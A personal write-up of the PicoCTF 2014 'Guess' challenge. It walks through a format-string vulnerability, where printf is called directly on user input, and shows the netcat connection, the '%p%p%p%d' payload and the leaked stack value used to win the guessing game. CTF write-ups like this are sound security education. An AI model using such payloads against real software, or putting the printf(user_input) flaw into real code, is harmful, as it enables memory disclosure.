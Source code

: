 
PicoCTF 2014
===================
Writeup from PicoCTF 2014

Originally had this on my website, but now I’m moving it here

**Update**

I owe a Thank you to the people who ran PicoCTF, students of CMU for the wonderful t-shirt I received. They sent shirts to the top 125 teams for free.


Intro
------
PicoCTF ran from October 27to  November 7. From PicoCTF's website:
What is picoCTF?
picoCTF is a computer security game targeted at middle and high school students. The game consists of a series of challenges centered around a unique storyline where participants must reverse engineer, break, hack, decrypt, or do whatever it takes to solve the challenge. The challenges are all set up with the intent of being hacked, making it an excellent, legal way to get hands-on experience. Read more on the About page.

It was an amazing competition, extremely fun and interesting, I am looking forward to next year's.
There were 3,185 teams that competed in total, while I wanted to score in the top 100, I ended up just short. Next year, I plan on scoring higher, and getting a free t-shirt.

**There are numerous writeups from PicoCTF 2014, I'll be covering the challenges that I enjoyed the most & thought were the most interesting**


Guess
-----
This challenge used logic similar to Format (a string formatting exploit)
To start, we need to connect to the server
```bash
nc vuln2014.picoctf.com 4546
```
We are greeted with a message: "Hello, what is your name?"
If we look at the source code, we can see what happens next
```bash
printf("Hello! What is your name?\n");
fgets(name, sizeof(name), stdin);

printf("Welcome to the guessing game, ");
printf(name);
```
It will call printf on the variable name, which we control. Now, we can use string formatting to get our randomly generated number from the stack.
We need to first walk up the stack, so I did a bit of guess work, and eventually got the right amount of times to walk up the stack (4).
```bash
Hello! What is your name?
%p%p%p%d
Welcome to the guessing game, 0x200xf7770c200x8c61008-1208183517
```
I walked up 3 times, and then used %d to get a decimal value.
It then asked for a "guess" Which was -1208183517
>Wow! You guessed it!
>Your flag is: leak_the_seakret

